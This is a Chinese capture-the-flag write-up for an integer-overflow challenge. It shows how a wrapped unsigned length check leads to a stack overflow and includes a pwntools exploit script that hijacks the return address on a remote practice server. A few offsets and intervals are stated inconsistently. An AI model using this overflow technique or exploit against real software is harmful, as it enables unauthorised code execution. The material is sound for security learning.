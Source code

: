 ## 攻防世界
###  int_overflow

- 执行程序

  虚拟机里安装了 qemu 用户态，查看架构为32位程序。

```bash
cuc@cuc-VirtualBox:~/workspace/ctf$ file 51ed19eacdea43e3bd67217d08eb8a0e 
51ed19eacdea43e3bd67217d08eb8a0e: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=aaef797b1ad6698f0c629966a879b42e92de3787, not stripped
```

​	安装了所需的 libc 库

```bash
sudo apt-get install libgtk2.0-0:i386 libxtst6:i386 gtk2-engines-murrine:i386 lib32stdc++6 libxt6:i386 libdbus-glib-1-2:i386 libasound2:i386
```

​	程序启动指令

```bash
qemu-i386 ./51ed19eacdea43e3bd67217d08eb8a0e 
```

对于输入的密码，使用strlen函数计算密码长度，返回的数据类型是size_t，但重点不在这里，接受长度的变量v3是无符号int8类型，所以输入数据只要超过256的长度，就会出现溢出，并且能够绕过对输入长度的限制（处于 (3,8] 区间）成功只从 strcpy 函数。

```bash
size_t strlen ( const char * str );
```

![](imgs/rong_func.png)

- payload 构造原理
  - 判断条件对输入数据长度的要求是处于区间 [3,8)
  - 我们需要输入足够长的数据覆盖栈空间
  
   因此我们使用 k*255 + 5 长度的输入，最终存储的长度为5绕过检测。
  
  验证payload
  
  ![](imgs/segfault.png)
  
- 定位偏移

  ```bash
  # 长度 255 + 5 = 300
  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6
  ```

  ```
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x41386141 in ?? ()
  ```

  偏移为24

    ```bash
  cuc@cuc-VirtualBox:~/tools$ python2 patternLoCOffset.py -s 0x41613841
  [*] Create pattern string contains 1024 characters
  ok!
  [*] Exact match at offset 24
  [+] take time: 0.0079 s
    ```

  找到内部有个函数能直接打印 flag 的函数，地址 0x0804868B

  ```bash
  int what_is_this()
  {
    return system("cat flag");
  }
  ```

  ![](imgs/system.png)

- exp

  > ```
  > pip3 install pwntools -i https://www.piwheels.org/simple/
  > ```

  ```python
  ##!/usr/bin/env python
  from pwn import*
  
  #r=process('./51ed19eacdea43e3bd67217d08eb8a0e')
  r=remote("220.249.52.133",41723)
  
  system_adr = 0x0804868B
  payload = flat([24*'A',p32(system_adr),(260-24-4)*'A'])
  r.recvuntil("choice:")
  r.sendline('1')
  r.recvuntil("username:")
  r.sendline("atfwus")
  r.recvuntil("passwd:")
  r.sendline(payload)
  r.interactive()
  ```
  
  ![](imgs/int_of_flag.png)

## 安装pwntools

```bash
sudo apt-get update
sudo apt-get install -y python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools -i https://pypi.mirrors.ustc.edu.cn/simple 
```

## 问题

- 80386 和 i386的区别

- 为什么 只有有符号数才会发生溢出？

  > 涉及无符号数的计算永远不会溢出，因为不能用结果为无符号整数表示的结果值被该类型可以表示的最大值加 1 之和取模减（reduced modulo）

- size_t 函数是变量类型进行 `sizeof` 运算的结果。

  > 当传入数据为负数，数据被用于memcpy、strncpy函数，负数转为很大的无无符号整数。

  
